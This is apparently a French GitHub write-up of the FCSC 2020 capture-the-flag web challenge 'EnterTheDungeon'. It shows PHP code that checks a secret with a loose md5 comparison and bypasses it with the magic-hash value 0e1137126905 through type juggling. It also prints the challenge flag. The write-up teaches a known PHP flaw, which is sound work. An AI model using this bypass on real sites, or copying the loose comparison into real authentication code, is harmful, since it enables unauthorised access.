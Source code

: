 <p align="center">
  <a href="" rel="noopener">
 <img style="width:50px;" src="https://france-cybersecurity-challenge.fr/files/abecee1bc8e9f22344226e697e672a7d/navbar_logo.png" alt="Project logo"></a>
</p>
<h1 align="center">EnterTheDungeon</h1>

<div align="center">

[![CTF](https://img.shields.io/badge/FCSC-2020-red.svg)](https://france-cybersecurity-challenge.fr/)
[![CTF](https://img.shields.io/badge/Catégorie-Web-yellow.svg)](#)

</div>

--- 

## 📝 Table des matières

- [Enoncé](#problem_statement)
- [Sources](#idea)

## 🧐 Enoncé <a name = "problem_statement"></a>

Pour commencer, regardons un peu le site.

On y voit du texte, un chateau en ascii art, et un petit formulaire ou l'on demande un secret.

Dans un des textes, ont nous indique que le formulaire est désactivé.

```
Les admins ont reçu un message indiquant qu'un pirate avait retrouvé le secret en contournant la sécurité du site.
Pour cette raison, le formulaire de vérification n'est plus fonctionnel tant que le développeur n'aura pas corrigé la vulnérabilité
```

Lorsque l'on valide le formulaire, nous sommes redirigé vers check_secret.php?secret=VALEUR

Regardons le code source de l'index.

Il y avait un commentaire html.

```html
<!-- Pour les admins : si vous pouvez valider les changements que j'ai fait dans la page "check_secret.php", le code est accessible sur le fichier "check_secret.txt" -->
```

Allons voir ce fameux chec_secret.txt

```php
<?php
	session_start();
	$_SESSION['dungeon_master'] = 0;
?>
<html>
<head>
	<title>Enter The Dungeon</title>
</head>
<body style="background-color:#3CB371;">
<center><h1>Enter The Dungeon</h1></center>
<?php
	echo '<div style="font-size:85%;color:purple">For security reason, secret check is disable !</div><br />';
	echo '<pre>'.chr(10);
	include('./ecsc.txt');
	echo chr(10).'</pre>';

	// authentication is replaced by an impossible test
	//if(md5($_GET['secret']) == "a5de2c87ba651432365a5efd928ee8f2")
	if(md5($_GET['secret']) == $_GET['secret'])
	{
		$_SESSION['dungeon_master'] = 1;
		echo "Secret is correct, welcome Master ! You can now enter the dungeon";
		
	}
	else
	{
		echo "Wrong secret !";
	}
?>
</body></html>
```

D'accord  ont peut voir, que pour pouvoir entrer dans le dongeon il faut le secret. 
Mais la condition est :
```php
if(md5($_GET['secret']) == $_GET['secret'])
```

C'est ce que l'on appelle "type juggling".

Il nous faut trouver un hash en md5 qui soit égal a la valeur sans md5.

Pour cela le ce <a href="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/">github</a> peut nous servir !

Si l'ont regarde le tableau **Magic Hashes - Exploit** on peut voir différent hash, celui qui me semble le plus adéquate est le 0e1137126905.

Essayons
```
check_secret.php?secret=0e1137126905
```

Ok, l'accès est validé.
```
Secret is correct, welcome Master ! You can now enter the dungeon
```

Retournons sur l'index pour voir si quelque chose à changé maintenant.

C'est tout bon ! Le flag est la!
```
Félicitation Maître, voici le flag : FCSC{f67aaeb3b15152b216cb1addbf0236c66f9d81c4487c4db813c1de8603bb2b5b}
```


## ⛓️ Sources <a name = "limitations"></a>

Git - Swisskyrepo : https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Type%20Juggling
